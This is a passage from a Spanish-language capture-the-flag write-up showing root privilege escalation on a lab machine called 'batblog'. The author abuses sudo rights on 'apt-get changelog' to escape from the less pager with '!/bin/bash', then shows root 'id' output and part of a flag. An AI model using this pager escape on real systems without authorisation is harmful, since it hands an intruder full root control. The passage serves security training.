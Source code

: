 [Una simple búsqueda en GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) nos revela como escalar privilegios en nuestro caso.

Podemos abusar de que `apt-get` invoca el `pager` por defecto (`less`), y gracias a esta funcionalidad del binario podemos llegar a ejecutar el comando que queramos.

Ejecutamos lo que nos indica GTFOBins y esperamos un rato hasta que cargue la lista de cambios.
```console
badmin@batblog:~$ sudo apt-get changelog apt
```

Una vez hecho eso, simplemente introducimos `!/bin/bash` y se nos lanzará una consola como `root` que es el usuario con el cual estamos ejecutando el `apt-get`
```console
badmin@batblog:~$ sudo apt-get changelog apt
sudo: unable to resolve host batblog: Temporary failure in name resolution
Get:1 store: apt 1.8.2.3 Changelog
Fetched 459 kB in 0s (0 B/s)
WARNING: terminal is not fully functional
/tmp/apt-changelog-GF6tWs/apt.changelog  (press RETURN)
!/bin/bash
root@batblog:/home/badmin# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@batblog:~# cat root.txt
fb99ec67e2af74a33...
```

¡Y ya estaría!

Happy Hacking! 🚀